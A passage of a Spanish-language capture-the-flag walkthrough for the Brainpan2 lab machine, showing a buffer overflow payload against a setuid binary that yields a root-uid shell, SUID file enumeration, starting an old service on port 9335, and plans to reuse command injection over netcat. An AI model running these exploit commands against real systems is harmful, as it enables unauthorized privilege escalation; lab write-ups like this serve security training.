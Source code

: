 > Ejecutamos el EXPLOIT
```
anansi@brainpan2:/home/reynard$ ./msg_root `python -c 'print "A" * 14 + "\x5c\x05\xff\xbf"'` msg  
<ard$ ./msg_root `python -c 'print "A" * 14 + "\x5c\x05\xff\xbf"'` msg       
$ id
id
uid=104(root) gid=1000(anansi) groups=106(root),50(staff),1000(anansi)
$ whoami
whoami
root
```

> El usuario obtenido no es el verdadero usuario ROOT. Se puede observar esto en el archivo /etc/passwd.
> Volvemos a buscar un archivo con SETUID y encontramos un archivo interesante en /opt.
```
root # find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/opt/old/brainpan-1.8/brainpan-1.8.exe
/usr/sbin/exim4
/usr/bin/chfn
/usr/bin/passwd
root # ls -la
ls -la
total 36
drwxrwxr-x 2 root  staff  4096 Nov  5  2013 .
drwx------ 3 root  root   4096 Nov  4  2013 ..
-rwsr-xr-x 1 puck  puck  17734 Nov  4  2013 brainpan-1.8.exe
-rw-r--r-- 1 puck  puck   1227 Nov  5  2013 brainpan.7
-rw-rw-rw- 1 puck  staff    25 Feb 13 19:06 brainpan.cfg
root # pwd
pwd
/opt/old/brainpan-1.8
```

> Al ejecutar el archivo brainpan-1.8.exe abre un puerto y conexión en base a la configuración del archivo brainpan.cfg
> El archivo brainpan.cfg debe tener el IPADDR en 0.0.0.0, esto indica que se puede establecer una conexión desde cualquier dirección IP.

root # ./brainpan-1.8.exe &
./brainpan-1.8.exe &
[1] 9018
root # port = 9335
ipaddr = 0.0.0.0
+ bind done
+ waiting for connections...

```
root # netstat -lntp
netstat -lntp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.1.1:2222          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      8671/           
tcp        0      0 0.0.0.0:10000           0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:9335            0.0.0.0:*               LISTEN      -    
```
> Nos conectamos por NETCAT al nuevo puerto abierto: 9335
> Identificamos nuevamente la inyección de comandos a través de la opción VIEW pero esta vez tenemos privilegios del usuario PUCK.

